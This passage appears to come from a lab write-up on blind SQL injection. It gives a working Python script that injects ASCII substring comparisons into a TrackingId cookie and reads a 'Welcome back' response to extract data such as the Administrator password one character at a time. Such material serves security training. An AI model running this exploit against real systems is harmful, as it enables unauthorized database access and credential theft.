 ## Automatic Solution using Python
As mentioned, i would use a script that i've used few times for that occasion (Dumping Data using SQLi). I'd search for ascii numbers rather than characters, but display them as normal characters so you can basically just copy-paste the dumped password.

```py
import requests
import sys

requests.urllib3.disable_warnings()

def inject_func(ip, inj_str):
    for j in range(32, 126):
        # now we update the sqli
        session = requests.Session()
        session.verify = False
        target = "%s" % (ip)
        cookies = {"TrackingId":inj_str.replace("[CHAR]", str(j)),"session":"EJOTJEW5lC8QL2zIU83YdnMMEhUT8708"} 
        #proxies = {"http": "http://127.0.0.1:8080"}
        r = session.get(target,cookies=cookies)
        if "Welcome back" in r.text:
            return j
    return 0

def main():
    if len(sys.argv) != 3:
        print("(+) usage: %s <target> <injection>" % sys.argv[0])
        print('(+) eg: %s 192.168.121.103 "select version()"' % sys.argv[0])
        sys.exit(-1)
    
    ip = sys.argv[1]
    injection_parameter = sys.argv[2]
    # e.g. for injection parameter = SELECT Password FROM Users WHERE Username = 'Administrator'

    out = "(+) Retrieving "+ injection_parameter
    print(out)
    #no need to exchange spaces etc.
    #injection_parameter = injection_parameter.replace(" ", "/**/")

    for i in range(1, 25):
        if i != 0:
            injection_string = "non-existent' OR (ascii(substring((" + injection_parameter + "),%d,1)))=[CHAR] --" % (i)
            extracted_char = chr(inject_func(ip, injection_string))
            sys.stdout.write(extracted_char)
            sys.stdout.flush()
        else:
            break
    print("\n(+) done!")
if __name__ == "__main__":
    main()
```
I've set the length to 25 manualy, so that many character length will we checked. This could have been automated as well but some other time!
